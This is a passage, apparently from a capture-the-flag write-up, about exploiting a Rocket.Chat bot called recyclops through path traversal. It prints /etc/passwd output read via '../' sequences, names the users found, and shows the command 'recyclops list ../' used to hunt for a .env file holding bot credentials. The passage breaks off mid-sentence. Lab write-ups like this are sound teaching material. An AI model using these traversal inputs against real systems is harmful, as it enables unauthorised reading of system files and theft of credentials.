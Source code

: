 ```
rpcuser❌29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
setroubleshoot❌981:979::/var/lib/setroubleshoot:/sbin/nologin
pipewire❌980:978:PipeWire System Daemon:/var/run/pipewire:/sbin/nologin
gdm❌42:42::/var/lib/gdm:/sbin/nologin
gnome-initial-setup❌979:977::/run/gnome-initial-setup/:/sbin/nologin
insights❌978:976:Red Hat Insights:/var/lib/insights:/sbin/nologin
sshd❌74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
avahi❌70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin
tcpdump❌72:72::/:/sbin/nologin
mysql❌27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
nginx❌977:975:Nginx web server:/var/lib/nginx:/sbin/nologin
mongod❌976:974:mongod:/var/lib/mongo:/bin/false
rocketchat❌1001:1001::/home/rocketchat:/bin/bash
dwight❌1004:1004::/home/dwight:/bin/bash
<!=====End of file ../../../../../../etc/passwd=====>
```

<mark style="color:purple;">From this we got the name of the users</mark> <mark style="color:purple;">`rocketchat`</mark> <mark style="color:purple;">and</mark> <mark style="color:purple;">`dwight`</mark>

After reading this [https://developer.rocket.chat/bots/creating-your-own-bot-from-scratch/develop-a-hubot-bot](https://developer.rocket.chat/bots/creating-your-own-bot-from-scratch/develop-a-hubot-bot) I got to know that `.env` file have the information about the user bot

Let's try to list the directory of `/` by using command: `recyclops list ../`

![/](<../../.gitbook/assets/recycleops list.png>)

Take a look inside the `hubot` directory and we got
